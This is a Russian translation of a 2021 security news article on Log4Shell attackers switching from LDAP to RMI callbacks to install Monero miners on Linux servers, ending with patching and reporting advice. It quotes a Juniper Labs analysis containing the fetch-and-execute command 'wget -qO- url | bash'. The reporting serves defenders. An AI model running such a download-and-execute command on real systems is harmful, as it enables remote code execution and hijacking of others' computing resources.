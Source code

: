 ```yaml
---
title: "Злоумышленники, использующие уязвимость Log4j, перешли к установке майнеров Monero через RMI"
date: "2021-12-16"
categories:
  - "Новости"
tags:
  - "Взлом"
thumbnail: "img/post/2021-12-16-log4j-attackers-switch-to-injecting-monero-miners-via-rmi/01.jpg"
lead: "Неизвестные злоумышленники, использующие уязвимость Log4j в Apache, переключили обратные ссылки URL сервиса LDAP на RMI или, возможно, задействовали сразу оба варианта, чтобы до максимума повысить шансы на успех."
pager: true
toc: false
sidebar: "right"
widgets:
  - "recent"
  - "taglist"
---
```


Такой переход является достойным особого внимания развитием продолжающейся атаки и непременно должен учитываться теми, кто будет заниматься разработкой мер защиты, что позволит обезопасить все возможные векторы.

До настоящего времени подобная тенденция в основном наблюдалась в случае со злоумышленниками, пытавшимися путём взлома контролировать вычислительные ресурсы для майнинга Monero, но это вовсе не исключает того, что и другие недобросовестные пользователи в любой момент смогут прибегнуть к данному способу.

### _Переход с LDAP на RMI_

Большинство атак, целью которых становилась уязвимость Log4j "Log4Shell", проводилось через сервис LDAP (Lightweight Directory Access Protocol).

Переход на API RMI (Remote Method Invocation) сперва может показаться алогичным, учитывая тот факт, что данный механизм, как правило, является предметом дополнительных проверок и ограничений, но далеко не всегда это так.

Некоторые версии виртуальной машины JVM (Java Virtual Machine) не следуют жёсткой политике, и сам по себе RMI иногда может становиться более доступным каналом для реализации RCE (удалённого выполнения кода), чем LDAP.

Более того, запросы LDAP теперь можно уверенно считать одним из звеньев в цепочке заражения, и поэтому сегодня они уже более тщательно отслеживаются механизмами антивирусной защиты.

Например, многие инструменты IDS/IPS в настоящее время фильтруют запросы, используя JNDI и LDAP, поэтому существует вероятность, что на данном этапе RMI будет проигнорирован.

![02](/img/post/2021-12-16-log4j-attackers-switch-to-injecting-monero-miners-via-rmi/02.jpg)
_Запрос POST, который отправлялся уязвимым целям_  
_Источник: Juniper Labs_

В некоторых случаях специалистами из Juniper было отмечено, что в запросах POST (HTTP) присутствовали сразу оба сервиса: RMI и LDAP.

Как бы то ни было, у всех злоумышленников, пытавшихся воспользоваться уязвимостью Log4Shell, была одна и та же цель: отправка эксплойта, который был бы затем принят и обработан уязвимым сервером Log4j, после чего код был бы выполнен на целевом устройстве.

В результате проведения описанной выше атаки происходит переполнение оболочки Bash, и в итоге с удалённого сервера загружается скрипт оболочки.

«Этот код при помощи скриптового движка JavaScript выдаёт команду оболочки Bash, используя при этом конструкцию `$@|bash` для выполнения загруженного сценария, — говорится в отчёте [Juniper Labs](https://blogs.juniper.net/en-us/threat-research/log4j-vulnerability-attackers-shift-focus-from-ldap-to-rmi). — Во время выполнения этой команды оболочка Bash передаёт команды злоумышленника другому процессу Bash, `wget -qO- url | bash`, который в свою очередь скачивает и выполняет сценарий оболочки на целевой машине».

### _Взлом и использование вычислительных ресурсов с целью наживы_

При проведении атак, выявленных специалистами Juniper Labs, целью злоумышленников был майнинг Monero с помощью взломанных серверов. При этом всё выглядело абсолютно невинно, если бы не делалось для того, чтобы «навредить кому бы то ни было».

![03](/img/post/2021-12-16-log4j-attackers-switch-to-injecting-monero-miners-via-rmi/03.jpg)
_Сообщение злоумышленников, найденное в загруженном сценарии оболочки_  
_Источник: Juniper Labs_

Целью майнеров стали системы Linux x84_64, а устойчивость присутствия обеспечивалась через подсистему cron.

Несмотря на то, что до сих пор целью большинства атак становились системы Linux, согласно информации, опубликованной [CheckPoint](https://research.checkpoint.com/2021/stealthloader-malware-leveraging-log4shell/), аналитиками компании были обнаружены первые выполняемые файлы Win32, использующие Log4Shell под названием StealthLoader.

### _Найти, обновить, отчитаться_

Единственным осуществимым средством защиты от одной из наиболее серьёзных обнаруженных за последнее время уязвимостей является обновление Log4j до версии [2.16.0](https://logging.apache.org/log4j/2.x/security.html).

Кроме того, сетевым администраторам рекомендуется пристально следить за разделом Apache по безопасности в ожидании обновлений и устанавливать их сразу же после публикации.

Руководство по реализации защиты от атаки и подробную техническую информацию можно найти на [странице СISA](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance), посвящённой Log4Shell.

Помимо прочего, существует довольно [полный список продуктов](https://www.bleepingcomputer.com/news/security/log4j-list-of-vulnerable-products-and-vendor-advisories/), пострадавших от CVE-2021-44228, а в этом [репозитории GitHub](https://github.com/cisagov/log4j-affected-db) содержится постоянно обновляемый список справочных материалов от поставщиков.

Наконец, если вы вдруг заметите, что с вашими системами происходит что-то подозрительное, сообщите об этом в [ФБР](https://www.fbi.gov/resources/victim-services/seeking-victim-information/seeking-victims-of-log4j-vulnerability) или [CISA](https://www.cisa.gov/uscert/report) — они очень активно работают над тем, чтобы избежать дальнейшего ущерба и как-то исправить сложившуюся ситуацию.

---

_Источник: [Log4j attackers switch to injecting Monero miners via RMI](https://www.bleepingcomputer.com/news/security/log4j-attackers-switch-to-injecting-monero-miners-via-rmi/_

_Перевод: [Mr. Pickles](https://t.me/v1docq47)_  
_Коррекция: [Kukima](https://t.me/Kukima)_
